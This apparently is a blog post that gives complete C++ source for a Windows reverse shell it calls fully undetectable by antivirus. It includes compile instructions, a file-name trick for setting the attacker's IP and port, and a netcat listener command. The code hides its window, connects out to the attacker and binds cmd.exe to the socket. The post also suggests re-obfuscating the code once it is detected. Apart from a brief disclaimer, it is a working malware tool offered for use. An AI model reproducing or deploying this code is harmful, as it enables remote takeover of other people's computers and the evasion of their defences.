 ```yaml
---
title: "Fud Reverse Shell For Windows (C++)"
date: 20 December 2021
description: C++ Reverse Shell For Windows For Bypassing AV Solutions .
tags: bypass-av
words: 455
---
```


<Prompt title="Heads up!" status="warn">
All content of this blog is only for Educational Purposes ! 
Do Not Use tools or methods of this blog on any hardware or software without authorization of the owner !
</Prompt>

Today i share a c++ reverse shell source code for windows , as time of writing , its fully undetectable !
Its bypassing all antivirus solutions and works with
- Windows 11 
- Windows 10 
- Windows 8 
- Windows 7 
- Windows Server 2019 
- Windows Server 2016 

The source code is not obfuscated and if along the way get detected by av solutions , We can obfuscate it and its ready to go again !

One of the cool methods of this reverse shell is the ip and port for your listiner , Its hardcoded on name of the .exe file !

For Example your listiner ip and port is = 192.168.1.1:8080
You rename the exe file to this :
```
192x168x1x1_8080.exe
```

# How Compile It

#### First you copy the source code :
```
#include <winsock2.h>
#include <stdio.h>
#include <string>
#include <tchar.h>
#include <Windows.h>

#pragma comment(lib,"ws2_32")
#pragma warning(disable:4996) 
WSADATA wsaData; SOCKET s1;
struct sockaddr_in R;
STARTUPINFO A;
PROCESS_INFORMATION B;
using std::string;
string getFileName(const string& s) {

	char sep = '/';
	
	#ifdef _WIN32
		sep = '\\';
	#endif
	size_t i = s.rfind(sep, s.length());
	if (i != string::npos) {
		return(s.substr(i + 1, s.length() - i));
	}

	return("");
}

int main(int argc, char *argv[])
{
	FreeConsole(); //Hide window
	WSAStartup(MAKEWORD(2, 2), &wsaData);
	string path =getFileName(argv[0]);
	path.resize(path.size() - 4); //remove .exe from the file
	//replace x to "."
	for (int i = 0; i < path.size(); i++) {
		if (path[i] == 'x') {
			path[i] = '.';
		}
	}
	//PORT and IP from the executable
	size_t i = path.rfind("_", path.length());
	string port = path.substr(i+1, i-path.length());
	string ip = path.substr(0, i);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
	R.sin_family = AF_INET;
	R.sin_port = htons(std::stoul(port, nullptr, 0));
	R.sin_addr.s_addr = inet_addr(ip.c_str());
	WSAConnect(s1, (SOCKADDR*)&R, sizeof(R), 0, 0, 0, 0);
	memset(&A, 0, sizeof(A));
	A.cb = sizeof(A);
	A.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	A.hStdInput = A.hStdOutput = A.hStdError = (HANDLE)s1;
	TCHAR c[256] = L"cm";
	TCHAR d[256] = L"d.exe";
	CreateProcess(NULL, _tcscat(c, d), 0, 0, 1, 0, 0, 0, &A, &B);

}
```
#### Second Save it with whatever name you want with .cpp extension 
For Example I Save The Source Code With This Name :
```
mine.cpp
```
You can compile this in two ways :
- Visual Studio
- MSVC Compiler
For compiling in visual studio you just have to make a new project and add the .cpp file to the project and compile for x64 .

If you dont have visual studio , you can use Microsoft MSVC Compiler Tool
<Resource
  links={[
    {
      title: "MSVC Compiler Tool",
      link: "https://docs.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170",
    },
  ]}
/>

After Downloading MSVC Compiler Tool you just have to open new cmd or powershell prompt on the folder you saved .cpp file and run this command :
```
cl.exe mine.cpp
```
Thats It ! After compiling you have a exe file named mine.exe .
Rename the exe file with your listiner ip and port like this :
```
192x168x1x1_8080.exe
```
Now you just have listen a port and run the exe file on the windows system . 

# Listen a port on Windows

For listen a port on windows and get the reverse connection , i suggest netcan for windows 

<Resource
  links={[
    {
      title: "Netcan For Windows",
      link: "https://github.com/rahuldottech/netcat-for-windows/releases",
    },
  ]}
/>

After downloading netcat for windows listen a port with this command :
```
nc64.exe -lvnp 8080
```
Thats it . 